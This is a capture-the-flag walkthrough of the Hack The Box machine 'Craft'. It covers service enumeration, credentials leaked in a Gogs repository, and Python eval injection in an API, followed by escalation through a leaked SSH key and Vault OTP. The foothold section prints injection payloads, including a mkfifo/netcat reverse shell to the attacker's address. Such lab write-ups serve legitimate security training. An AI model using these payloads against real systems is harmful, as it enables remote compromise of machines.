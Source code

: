 # 						  Hack The Box - Craft 

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds   
```
### Enumerating the web page - https://craft.htb
![homepage](/images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](/images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](/images/gogs_craft.png)
Clicking on __Explore__ leads to the public content of the repository.

Repository housing the code and content for api.craft.htb:
![commits](/images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh's credentials were accidentally commited and removed: 
![dinesh_creds](/images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](/images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](/images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](/images/test1.png )

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](/images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp

Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](/images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn't be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](/images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](/images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key and vault write commands are discovered
![gilfoyle_ssh_key](/images/gilfolye_ssh.png)
  
Save the ssh private key, apply the normal permissions (chmod 400), and then authenticate with the SSH private key and enter gilfoyle's password (dumped from the db/git password) as passphrase.
![gilfoyle_ssh_key](/images/user.txt.png)

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

Exploring vault:
![vault_secrets](/images/vault_secrets_list.png)

Gilfoyle's OTP setup:

![otp_setup](/images/vault_write_ssh_otp.png)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](/images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](/images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
